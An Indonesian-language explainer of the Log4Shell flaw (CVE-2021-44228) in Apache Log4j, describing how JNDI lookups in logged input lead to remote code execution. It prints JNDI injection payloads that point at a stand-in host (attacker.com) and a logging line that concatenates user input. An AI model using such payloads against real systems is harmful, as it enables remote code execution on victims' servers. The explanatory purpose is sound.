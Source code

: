 # Apa itu Log4Shell?
Jadi gini, Log4Shell itu nama panggilan buat celah keamanan yang super berbahaya di Apache Log4j, salah satu library logging paling terkenal sejagat Java. Versi yang kena itu Log4j 2.0 sampai 2.14.1.

Celah ini resmi dikasih kode CVE-2021-44228, dan pertama kali heboh sekitar Desember 2021. Kayak bom waktu, banyak sistem Java di seluruh dunia langsung panik karena celah ini gampang banget dieksploitasi

## Gimana Cara Kerjanya?
Singkatnya, Log4Shell itu memanfaatkan fitur "lookup" di Log4j yang bisa nge-parse `${}` (placeholder gitu). Nah, attacker bisa masukin string kayak gini ke log:
`${jndi:ldap://attacker.com/Exploit}`

Log4j bakal ngelakuin JNDI lookup dan nyambung ke server attacker, lalu jalanin Java class berbahaya dari luar! Boom, RCE (Remote Code Execution) langsung terjadi
### contoh eksploitasi
Misalnya sebuah aplikasi log aktivitas user input:

```
logger.info("User input: " + input);

```
Jika seseorang mengisi input seperti ini:
`${jndi:ldap://attacker.com/a}`

Log4j secara otomatis akan:
1.Menafsirkan `${jndi:...}` sebagai instruksi JNDI.

2.Menghubungi attacker.com.

3.Menjalankan payload Java yang dikembalikan dari server penyerang.

Hasilnya: Penyerang bisa menjalankan kode arbitrer (Remote Code Execution - RCE) di server korban.

